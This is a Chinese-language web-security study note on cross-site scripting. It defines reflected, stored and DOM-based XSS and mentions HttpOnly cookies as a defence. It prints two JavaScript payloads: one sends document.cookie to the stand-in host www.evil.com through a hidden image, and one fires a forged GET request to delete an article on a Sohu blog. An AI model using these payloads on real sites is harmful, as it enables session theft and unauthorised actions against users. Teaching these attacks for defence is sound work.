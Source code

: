 ```yaml
---
title: "跨站脚本攻击（XSS）"
date: 2019-07-10T19:43:10+08:00
tags: [""]
categories: ["系统理论课程", "白帽子讲WEB安全"]
---
```



> OWASP TOP 10 威胁曾多次把 XSS 列在榜首。

## XSS 简介

跨站脚本攻击：

- Cross Site Script (XSS)。通常指黑客通过 `HTML` 注入的方式篡改了网页、插入了恶意的脚本，从而在用户浏览网页时，控制用户浏览器的一种攻击。

XSS 根据效果不同可以分为如下几类：

1. **反射型 XSS**，或称 “非持久型 XSS”（Non-persistent XSS）。只是简单地把用户的输入 “反射” 给浏览器。
2. **存储型 XSS**，或称 “持久型 XSS”（Persistent XSS）。会把用户输入的数据 “存储” 在服务端，这种 XSS 具有很强的稳定性。
3. **DOM Based XSS**。这种 XSS 从效果上来看也属于反射型 XSS。与后者的区别是通过更改 DOM 树的方式而非执行 `JavaScript` 代码的方式进行攻击。

## XSS Payload

### 窃取 Cookie

最常见的 XSS Payload 就是读取浏览器的 `cookie` 对象：

```js
var img = document.createElement("img");
img.src = "http://www.evil.com/log?"+escape(document.cookie)
document.body.appendChild(img)
```

这段代码会在页面中插入一张看不见的图片，同时把 `document.cookie` 对象作为参数发送到远程的服务器。事实上，`/log` 路径不一定要存在，因为这个请求会在远程服务器的 WEB 日志中留下记录。这样就做完了一个最简单的窃取 `cookie` 的 XSS payload。

`Cookie` 的 `HttpOnly` 标识可以防止 "Cookie 劫持"，有的网站则会把 Cookie 与客户端的 IP 绑定。

### 构造 GET 请求

比如搜狐上有一篇文章，它删除文章的链接是这样的：

```
http://blog.sohu.com/message/entry.do?m=delete&id=1000
```

对于攻击者来说，则只需要构造夏敏的一个 payload 就可以发起一个删除文章的 GET 请求：

```javascript
var img = document.createElement("img");
img.src = "http://blog.sohu.com/message/entry.do?m=delete&id=1000"
document.body.appendChild(img)
```
